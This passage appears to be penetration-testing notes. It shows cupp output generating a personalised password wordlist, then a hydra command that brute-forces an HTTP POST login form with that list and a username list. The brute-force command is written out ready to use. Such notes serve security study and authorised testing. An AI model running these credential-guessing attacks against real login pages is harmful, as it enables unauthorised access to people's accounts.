 ```bash
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to jane.txt, counting 46790 words.
[+] Now load your pistolero with jane.txt and shoot! Good luck!
```
#### Using wordlist for same

```bash
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```
# Tags
> #Pre-Exploitation #Password-Wordlist-Generation #CeWL #Hashcat #Hashcat-Rules #Username-anarchy #cupp

